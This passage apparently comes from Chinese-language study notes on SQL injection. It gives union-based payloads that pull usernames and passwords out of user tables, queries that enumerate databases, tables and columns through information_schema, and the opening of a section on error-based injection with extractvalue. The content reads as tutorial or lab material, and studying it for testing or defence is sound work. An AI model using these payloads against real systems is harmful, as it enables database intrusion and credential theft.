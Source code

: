 
##### h. 获取详细信息

* 查看具体的信息，例如登录账号、密码

```
1' union select 1,concat(user,password) from users --
1' union select 1,concat_ws("_",user,password) from users --

// 1.获取数据库列表
-1' union select schema_name,2 from information_schema.schemata -- qwe
//获取指定表(可以省略)
-1' union select table_schema,table_name from information_schema.tables where table_schema='stu_manage' and table_name='admin' -- qwe

//2.获取表的字段信息
-1' union select table_name,column_name from information_schema.columns where table_schema='stu_manage' and table_name='admin' -- qwe

//3.获取字段内容
-1' union select 1,concat_ws("_",username,password) from admim -- qwe
```

##### i. 破解加密

* 将加密后的数据根据加密规则进行解密



### 5. 报错注入

#### (1). 概念

* 利用数据库的**某些机制**，**人为的**制造出错误条件，使得查询结果能够出现在**报错信息中**
* 想办法**构造语句**，**让错误信息中可以显示数据库的内容**

#### (2). 基本手法

##### a. XPATH

###### ①extractvalue

extractvalue(arg1,arg2)

* arg1：**XML文档**，arg2：**XPATH语句**，至少接收2个参数

* mysql5.1及以上

* 标准payload

  ```
  1' and extractvalue(1,concat(0x7e,user(),0x7e)) --+
  
  //在报错信息中查询出
  1' and extractvalue(1,arg2) --+
  arg2= concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```
